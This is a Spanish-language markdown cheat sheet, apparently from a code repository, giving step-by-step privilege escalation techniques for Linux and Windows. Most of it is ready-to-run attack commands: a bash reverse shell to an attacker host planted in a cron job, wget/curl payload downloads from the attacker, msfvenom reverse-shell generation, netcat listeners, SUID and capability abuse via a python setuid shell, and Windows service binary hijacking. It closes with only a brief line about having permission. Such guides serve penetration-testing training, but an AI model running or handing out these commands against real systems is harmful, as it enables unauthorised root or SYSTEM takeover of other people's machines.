 # ESCALAR PRIVILEGIOS 🔓🚀

La escalada de privilegios es el proceso de obtener mayores permisos en un sistema comprometido. Aquí se describen varias técnicas para escalar privilegios en **Linux** y **Windows**.

---

## LINUX 🐧

### OPCIÓN SENCILLA 💥

#### **Vulnerabilidad Kernel**
1. Buscamos un exploit en Google o **searchsploit**.
2. Copiamos el exploit:
   ```bash
   searchsploit -m PATH
   ```
   O creamos un archivo y copiamos el código del exploit.
3. Subimos el exploit al objetivo:
   ```bash
   python3 -m http.server 8080
   wget http://<IP ATACANTE>:8080/exploit
   ```
4. Ejecutamos el exploit:
   ```bash
   ./exploit
   ```

#### **Compilar el Exploit**
```bash
gcc 37292.c -o exploit
```

---

### TECNICA SUDO 🔑

1. **`sudo -l`** => Ver qué comandos son vulnerables para escalar privilegios.
2. Visita **gtfobins.github.io** para encontrar los comandos vulnerables.
3. Filtra por **sudo** y busca un comando vulnerable (por ejemplo: `find`).
4. Copia el comando y ejecútalo.
5. Escala a **root**.

---

### TECNICA SUID 🔒

1. **Buscar comandos vulnerables SUID**:
   ```bash
   find / -perm -u=s -type f 2>/dev/null
   ```
2. Visita **gtfobins.github.io** para buscar vulnerabilidades.
3. Filtra por **SUID**.
4. Encuentra el comando vulnerable y ejecuta el código proporcionado.
5. **Dar permisos SUID**:
   ```bash
   chmod 4755 /usr/bin/find
   ```

**IMPORTANTE**: Adquirimos los permisos del propietario del archivo (puede ser **root** u otro usuario).

---

### TECNICA CRON JOBS ⏰

1. **Ver las tareas programadas**:
   ```bash
   cat /etc/crontab
   ```
2. Busca tareas que puedas modificar.
3. Modifica el archivo y escribe una reverse shell para que se ejecute cuando toque la tarea:
   ```bash
   bash -i >& /dev/tcp/IP_ATACANTE/PUERTO 0>&1
   ```
4. Pon en escucha tu máquina atacante:
   ```bash
   nc -lnvp PUERTO
   ```
5. Espera que la tarea se ejecute y recibirás una reverse shell con privilegios **root**.

---

### CAPABILITIES (Persistencia) 🔑

1. **Buscar Capabilities en gtfobins**: **python** o **php** son los más comunes.
2. Usar los comandos proporcionados por **gtfobins** como **root**:
   ```bash
   sudo setcap cap_setuid+ep python
   ```
   **Si no funciona**:
   ```bash
   readlink -f /usr/bin/python3
   setcap cap_setuid+ep /usr/bin/python3.8
   ```
3. Para usar la **capability** como **user**, ejecuta el siguiente comando de gtfobins:
   ```bash
   ./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
   ```
4. Escalas a **root**.

---

## WINDOWS 🖥️

### **SERVICE EXPLOIT: INSECURE SERVICE PERMISSIONS** 🔐

1. Debemos tener **Sysinternals** para usar **accesschk.exe**.
2. Verifica los permisos en la carpeta:
   ```bash
   accesschk.exe /accepteula -uwdq "C:\Program Files\..."
   ```
3. Busca información sobre el servicio:
   ```bash
   sc qc SERVICIO
   ```
4. Crea una reverse shell con **msfvenom**:
   ```bash
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe -o reverse.exe
   ```
5. Subimos el archivo a la máquina objetivo:
   ```bash
   python -m http.server 8080
   curl -O http://IP_ATACANTE:8080/reverse.exe
   ```
6. Cambiamos la ruta de ejecución del servicio:
   ```bash
   sc config daclsvc binpath= "\"C:\Users\user\reverse.exe\""
   ```
7. Pon en escucha tu máquina atacante:
   ```bash
   nc -lvnp 4444
   ```
8. Ejecuta el servicio:
   ```bash
   net start SERVICIO
   ```
9. Obtienes una reverse shell como **SYSTEM**.

---

### **SERVICE EXPLOIT: UNQUOTED SERVICE PATH** 💥

Esta vulnerabilidad ocurre por no poner comillas a la ruta del servicio. Puedes crear una reverse shell con el nombre adecuado para que se ejecute.

1. Pasos 1 a 4 son los mismos que en **INSECURE SERVICE PERMISSIONS**.
2. Crea o renombra la reverse shell:
   ```bash
   ren reverse.exe Common.exe
   ```
3. Copia la reverse shell a la ruta del servicio:
   ```bash
   copy C:\User\user\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
   ```
4. Pon en escucha tu máquina atacante:
   ```bash
   nc -lvnp 4444
   ```
5. Ejecuta el servicio:
   ```bash
   net start SERVICIO
   ```
6. Obtienes una reverse shell como **SYSTEM**.

---

### **SERVICE EXPLOIT: INSECURE SERVICE EXECUTABLES** 🔄

Esta vulnerabilidad ocurre cuando un servicio tiene permisos para ejecutar y modificar archivos por todos los usuarios del sistema.

1. Sigue los mismos pasos que en **UNQUOTED SERVICE PATH**, pero asegúrate de que el nombre de tu reverse shell coincida con el servicio.
2. Si el servicio se llama **filepermservice.exe**, copia tu reverse shell con el mismo nombre:
   ```bash
   copy C:\User\user\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
   ```

---

> **Nota** 📝: Asegúrate de tener permisos explícitos para realizar estas pruebas de escalada de privilegios. ⚠️
```
